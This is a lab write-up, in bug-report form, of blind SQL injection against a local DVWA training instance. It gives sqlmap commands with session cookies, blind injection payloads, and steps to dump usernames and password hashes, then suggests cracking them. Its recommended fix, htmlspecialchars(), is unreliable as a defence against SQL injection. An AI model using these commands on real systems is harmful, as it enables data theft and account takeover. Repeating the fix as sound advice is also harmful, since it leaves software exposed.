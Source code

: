 # Blind SQL injections leads to database dump of all usernames and their password hashes on level impossible

**Summary:**

Blind SQL Injection leads to all databases and their tables being dumped when on level impossible.

**Description:**

- Blind SQL injections occur when an application is vulnerable to an SQL injection, however no SQL query results are contained in the HTTP response. Instead there may be a time delay or a message to confirm that the query was correct which allows programs such as sqlmap to enumerate through SQL databases including their tables.
- A tool called sqlmap can be used to scan all the databases and their contents including the username and password hash of every user in the database. This is possibly due to special characters being accepted in the input because functions like htmlspecialchars() may not be used.

Affected URL: http://localhost/DVWA/vulnerabilities/sqli_blind/index.php

Affected Object: User ID input box.

![Alt text](image-14.png)

![Alt text](image-13.png)

**Severity:**

P1: Critical 

Server-Side Injection > SQL Injection

**Steps to Reproduce:**
1. Login with a user account and set the security level to impossible.

![Alt text](image.png)

2. Go to the SQL Injection (Blind) activity and input a successful input such as 2.

Affected URL: http://localhost/DVWA/vulnerabilities/sqli_blind/index.php

![Alt text](image-4.png)

3. Go to Burp Suite and add a successful request attempt with a correct id value to repeater and copy down the cookies.

![Alt text](image-5.png)

4. Use a tool called sqlmap from Github 

sqlmap: https://github.com/sqlmapproject/sqlmap 

and fill the command out like so using the cookies obtained from burp suite:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="security=impossible; PHPSESSID=h1nvkhckj1apfboclmqhrrh31d" | tee dvwa_sqlmap_impossible.txt

![Alt text](image-6.png)

5. Run the command and the following vulnerabilities detected will be:

        Parameter: id (POST)

            Type: boolean-based blind
            Title: AND boolean-based blind - WHERE or HAVING clause
            Payload: id=2 AND 3782=3782&Submit=Submit

            Type: time-based blind
            Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
            Payload: id=2 AND (SELECT 3999 FROM (SELECT(SLEEP(5)))ZrUr)&Submit=Submit


6. All database names can be discovered using the following command:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="PHPSESSID=h1nvkhckj1apfboclmqhrrh31d;security=impossible" --dbs | tee dvwa_sqlmap_impossible.txt

![Alt text](image-7.png)

    Databases returned:
    - dvwa
    - information_scheme

7. Dump all the table data for the 'dvwa' database with the following command:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="PHPSESSID=h1nvkhckj1apfboclmqhrrh31d;security=impossible" -D dvwa --dump | tee dvwa_sqlmap_impossible.txt

![Alt text](image-10.png)

8. Say 'y' to all the options:

![Alt text](image-11.png)

**Impact**

You will find the whole database is revealed containing usernames and the password hashes. Weak passwords that are hashed will be cracked with sqlmap via a dictionary attack. This information can be used to log into any user account.

**Recommended Mitigation**

- Remove all special characters including quotes and any comments that could be run in SQL. This can be done with the htmlspecialchars() php function.
